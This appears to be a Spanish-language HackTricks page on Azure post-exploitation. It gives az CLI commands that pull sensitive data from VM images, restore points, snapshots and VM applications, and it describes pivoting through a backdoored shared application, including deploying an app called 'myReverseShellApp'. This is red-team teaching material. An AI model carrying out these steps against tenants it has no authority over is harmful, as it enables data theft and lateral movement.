 # Az - VMs & Network Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## VMs & Network

Para más información sobre Azure VMs y redes, consulta la siguiente página:

{% content-ref url="../az-services/vms/" %}
[vms](../az-services/vms/)
{% endcontent-ref %}

### VM Application Pivoting

Las aplicaciones de VM pueden ser compartidas con otras suscripciones y inquilinos. Si una aplicación está siendo compartida, probablemente sea porque está siendo utilizada. Así que, si el atacante logra **comprometer la aplicación y sube una versión con puerta trasera**, podría ser posible que sea **ejecutada en otro inquilino o suscripción**.

### Información sensible en imágenes

Puede ser posible encontrar **información sensible dentro de imágenes** tomadas de VMs en el pasado.

1. **Listar imágenes** de galerías
```bash
# Get galleries
az sig list -o table

# List images inside gallery
az sig image-definition list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
-o table

# Get images versions
az sig image-version list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
--gallery-image-definition <IMAGE_DEFINITION> \
-o table
```
2. **Listar imágenes personalizadas**
```bash
az image list -o table
```
3. **Crear VM a partir de ID de imagen** y buscar información sensible dentro de ella
```bash
# Create VM from image
az vm create \
--resource-group <RESOURCE_GROUP> \
--name <VM_NAME> \
--image /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/galleries/<GALLERY_NAME>/images/<IMAGE_DEFINITION>/versions/<IMAGE_VERSION> \
--admin-username <ADMIN_USERNAME> \
--generate-ssh-keys
```
### Información sensible en puntos de restauración

Puede ser posible encontrar **información sensible dentro de los puntos de restauración**.

1. **Listar puntos de restauración**
```bash
az restore-point list \
--resource-group <RESOURCE_GROUP> \
--restore-point-collection-name <COLLECTION_NAME> \
-o table
```
2. **Crear un disco** a partir de un punto de restauración

{% code overflow="wrap" %}
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <NEW_DISK_NAME> \
--source /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/restorePointCollections/<COLLECTION_NAME>/restorePoints/<RESTORE_POINT_NAME>
```
{% endcode %}

3. **Adjuntar el disco a una VM** (el atacante necesita haber comprometido una VM dentro de la cuenta ya)
```bash
az vm disk attach \
--resource-group <RESOURCE_GROUP> \
--vm-name <VM_NAME> \
--name <DISK_NAME>
```
4. **Montar** el disco y **buscar información sensible**

{% tabs %}
{% tab title="Linux" %}
```bash
# List all available disks
sudo fdisk -l

# Check disk format
sudo file -s /dev/sdX

# Mount it
sudo mkdir /mnt/mydisk
sudo mount /dev/sdX1 /mnt/mydisk
```
{% endtab %}

{% tab title="Windows" %}
#### **1. Abrir la Administración de Discos**

1. Haz clic derecho en **Inicio** y selecciona **Administración de Discos**.
2. El disco adjunto debería aparecer como **Desconectado** o **No asignado**.

#### **2. Conectar el Disco**

1. Localiza el disco en el panel inferior.
2. Haz clic derecho en el disco (por ejemplo, **Disco 1**) y selecciona **Conectar**.

#### **3. Inicializar el Disco**

1. Si el disco no está inicializado, haz clic derecho y selecciona **Inicializar Disco**.
2. Elige el estilo de partición:
* **MBR** (Registro de Arranque Maestro) o **GPT** (Tabla de Particiones GUID). Se recomienda GPT para sistemas modernos.

#### **4. Crear un Nuevo Volumen**

1. Haz clic derecho en el espacio no asignado en el disco y selecciona **Nuevo Volumen Simple**.
2. Sigue el asistente para:
* Asignar una letra de unidad (por ejemplo, `D:`).
* Formatear el disco (elige NTFS en la mayoría de los casos).
{% endtab %}
{% endtabs %}

### Información sensible en discos y instantáneas

Puede ser posible encontrar **información sensible dentro de discos o incluso instantáneas de discos antiguos**.

1. **Listar instantáneas**
```bash
az snapshot list \
--resource-group <RESOURCE_GROUP> \
-o table
```
2. **Crear disco a partir de una instantánea** (si es necesario)
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <DISK_NAME> \
--source <SNAPSHOT_ID> \
--size-gb <DISK_SIZE>
```
3. **Adjuntar y montar el disco** a una VM y buscar información sensible (consulta la sección anterior para ver cómo hacerlo)

### Información sensible en extensiones de VM y aplicaciones de VM

Puede ser posible encontrar **información sensible dentro de extensiones de VM y aplicaciones de VM**.

1. **Listar todas las aplicaciones de VM**

{% code overflow="wrap" %}
```bash
## List all VM applications inside a gallery
az sig gallery-application list --gallery-name <gallery-name> --resource-group <res-group> --output table
```
{% endcode %}

2. Instale la extensión en una VM y **busque información sensible**

{% code overflow="wrap" %}
```bash
az vm application set \
--resource-group <rsc-group> \
--name <vm-name> \
--app-version-ids /subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Compute/galleries/myGallery/applications/myReverseShellApp/versions/1.0.2 \
--treat-deployment-as-failure true
```
{% endcode %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

